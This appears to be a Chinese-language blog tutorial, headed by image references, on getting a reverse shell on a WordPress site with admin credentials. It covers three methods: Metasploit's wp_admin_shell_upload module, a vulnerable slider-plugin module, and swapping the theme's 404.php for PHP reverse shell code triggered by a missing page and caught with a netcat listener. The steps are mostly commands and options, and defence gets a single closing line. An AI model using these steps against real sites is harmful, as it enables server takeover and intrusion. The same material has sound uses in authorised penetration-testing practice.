









```markdown
---
title: 如何设置 WordPress 反弹 Shell [100% 有效]
---

# 如何设置 WordPress 反弹 Shell [100% 有效]

> **作者：** heuctf
> **更新日期：** 2026年 4月 10日
> **分类：** 安全 (Security)
> **标签：** `#security`

-----

## 目录

* [WordPress 反弹 Shell 概述](#wordpress-反弹-shell-概述)
* [1. 通过 Metasploit 框架建立反弹 Shell](#1-通过-metasploit-框架建立反弹-shell)
* [2. 通过漏洞插件建立反弹 Shell](#2-通过漏洞插件建立反弹-shell)
* [3. 通过编辑 WordPress 主题建立反弹 Shell](#3-通过编辑-wordpress-主题建立反弹-shell)
* [总结](#总结)

-----

## WordPress 反弹 Shell 概述

自 2003 年发布以来，WordPress 已成为全球最受欢迎的内容管理系统 (CMS)。它基于 PHP 语言和 MariaDB/MySQL 数据库。截至 2021 年，全球有 4.55 亿个网站运行在 WordPress 上，约占互联网网站总数的 43%。

这种流行程度也使 WordPress 成为大多数网络攻击的目标。你可能在 Github 上见过各种专门利用 WordPress 漏洞的黑客工具。其中最常见的攻击之一就是设置 **反弹 Shell (Reverse Shell)**，让攻击者能够远程访问你的系统。

**注意：**
本文讨论的所有方法都要求你已经拥有登录 WordPress 后台所需的**凭据（用户名和密码）**。
在本文示例中，WordPress 的访问地址为 `172.20.10.14/wordpress`，攻击机为 **Kali Linux**。

-----

## 1\. 通过 Metasploit 框架建立反弹 Shell

**Metasploit** 是安全领域领先的渗透测试框架。它拥有专门的模块，可以轻松地将反弹 Shell 作为有效负载（Payload）上传到 WordPress 站点。

**操作步骤：**

1.  启动 Metasploit：
    ```bash
    sudo msfconsole
    ```
2.  加载用于上传 Shell 的模块：
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```
3.  设置必要的选项：
    ```bash
    set RHOSTS 172.20.10.14  # WordPress 服务器 IP
    set TARGETURI /wordpress # 站点路径
    set username admin       # 登录用户名
    set password admin       # 登录密码
    check                    # 验证配置和目标漏洞
    ```
    
    
4.  设置本地监听 IP 并执行攻击：
    ```bash
    set LHOST 172.20.10.14   # 你的攻击机 IP
    run                      # 发射载荷
    ```


成功后，你将获得一个 **Meterpreter** 会话。运行 `help` 查看可用命令，例如 `lls` 可以列出服务器上的文件。

-----


## 2\. 通过漏洞插件建立反弹 Shell

WordPress 支持插件，这让它功能强大，但也带来了风险。某些过时或编写粗糙的插件存在反弹 Shell 漏洞。

本文以 **Responsive Thumbnail Slider v1.0** 插件为例（可在 ExploitDB 下载）。

1.  下载并在目标网站安装该插件。
    

2.  启动 Metasploit 并加载对应模块：
    ```bash
    use exploit/multi/http/wp_responsive_thumbnail_slider_upload
    ```
    
    
3.  设置参数（RHOST, TARGETURI, WPUSERNAME, WPPASSWORD）并运行。

该模块会自动完成身份验证并上传反弹 Shell，成功后你将直接获得 Web 服务器的控制权。

-----


## 3\. 通过编辑 WordPress 主题建立反弹 Shell

这种方法非常有趣，因为**不需要任何框架或第三方工具**。其核心逻辑是：

> “在 WordPress 主题的 **404 页面**中注入 PHP 反弹 Shell 代码。每当你访问一个不存在的页面触发 404 时，Web 服务器就会自动启动该 Shell。”

**操作步骤：**

1.  登录 WordPress 后台，点击 **外观 (Appearance) → 主题文件编辑器 (Theme File Editor)**。
2.  在右侧面板中，选择 `404.php` 文件。
3.  
4.  将该文件内的所有代码替换为常用的 PHP Reverse Shell 代码（建议从官方渠道获取代码）。
5.  **关键步骤：** 将代码中的 `IP` 替换为你的攻击机 IP，`Port` 替换为你准备监听的端口（如 `8888`）。
    
6.  点击“更新文件”。

**触发 Shell：**

1.  在你的终端启动监听器（Netcat）：
    ```bash
    nc -lnvp 8888
    ```
    
    
2.  在浏览器访问一个不存在的路径来触发 404 页面，例如：
    `http://172.20.10.14/wordpress/index.php/dummydummy`
3.  你的 Netcat 终端会立即建立连接，你可以直接运行 Linux 命令。



-----

## 总结

本文介绍了在 WordPress 上设置反弹 Shell 的三种方法。**请记住：** 防御此类攻击的关键在于严格管理后台用户的访问权限。除了管理员，其他用户应被限制访问“主题编辑器”或“插件安装”权限。

如果你在操作中遇到任何问题，欢迎在下方评论区交流！
```
